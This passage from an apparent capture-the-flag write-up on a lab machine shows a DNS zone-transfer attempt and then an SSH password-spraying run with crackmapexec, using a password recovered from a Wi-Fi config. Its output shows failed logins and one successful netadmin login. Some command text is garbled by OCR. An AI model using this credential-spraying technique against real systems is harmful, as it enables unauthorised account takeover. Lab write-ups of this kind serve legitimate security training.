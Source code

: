 
Given that DNS is listening on TCP, I’ll try a zone transfer to see if there
are any subdomains:

    
    
    oxdf@hacky$ dig asxf @10.10.11.247 wifinetic.htb
    ;; communications error to 10.10.11.247#53: timed out
    ;; communications error to 10.10.11.247#53: timed out
    ;; communications error to 10.10.11.247#53: timed out
    
    ; <<>> DiG 9.18.12-0ubuntu0.22.04.1-Ubuntu <<>> asxf @10.10.11.247 wifinetic.htb
    ;; global options: +cmd
    ;; no servers could be reached
    
    ;; Got answer:
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 17349
    ;; flags: qr aa rd ra ad; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
    
    ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 65494
    ;; QUESTION SECTION:
    ;wifinetic.htb.                 IN      A
    
    ;; ANSWER SECTION:
    wifinetic.htb.          0       IN      A       10.10.11.247
    
    ;; Query time: 0 msec
    ;; SERVER: 127.0.0.53#53(127.0.0.53) (UDP)
    ;; WHEN: Tue Sep 12 20:44:43 EDT 2023
    ;; MSG SIZE  rcvd: 58
    

I’m not sure why it times out at first, but it eventually succeeds and finds
just the main domain.

## Shell as netadmin

### SSH Password Bruteforce

With the password from the Wifi config, I’ll use `crackmapexec` to try each
user from the `passwd` file with the password from the wireless config over
SSH. I like to use `--continue-on-success` in case there are more than one
user that shares that password. It finds one:

    
    
    oxdf@hacky$ crackmapexec ssh 10.10.11.247 -u users -p 'VeRyUniUqWiFIPasswrd1!' -
    ontinue-on-success
    SSH         10.10.11.247    22     10.10.11.247     [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.9
    SSH         10.10.11.247    22     10.10.11.247     [-] root:VeRyUniUqWiFIPasswrd1! Authentication failed.
    SSH         10.10.11.247    22     10.10.11.247     [-] daemon:VeRyUniUqWiFIPasswrd1! Authentication failed.
    SSH         10.10.11.247    22     10.10.11.247     [-] ftp:VeRyUniUqWiFIPasswrd1! Authentication failed.
    SSH         10.10.11.247    22     10.10.11.247     [-] network:VeRyUniUqWiFIPasswrd1! Authentication failed.
    SSH         10.10.11.247    22     10.10.11.247     [-] nobody:VeRyUniUqWiFIPasswrd1! Authentication failed.
    SSH         10.10.11.247    22     10.10.11.247     [-] ntp:VeRyUniUqWiFIPasswrd1! Authentication failed.
    SSH         10.10.11.247    22     10.10.11.247     [-] dnsmasq:VeRyUniUqWiFIPasswrd1! Authentication failed.
    SSH         10.10.11.247    22     10.10.11.247     [-] logd:VeRyUniUqWiFIPasswrd1! Authentication failed.
    SSH         10.10.11.247    22     10.10.11.247     [-] ubus:VeRyUniUqWiFIPasswrd1! Authentication failed.
    SSH         10.10.11.247    22     10.10.11.247     [+] netadmin:VeRyUniUqWiFIPasswrd1!
    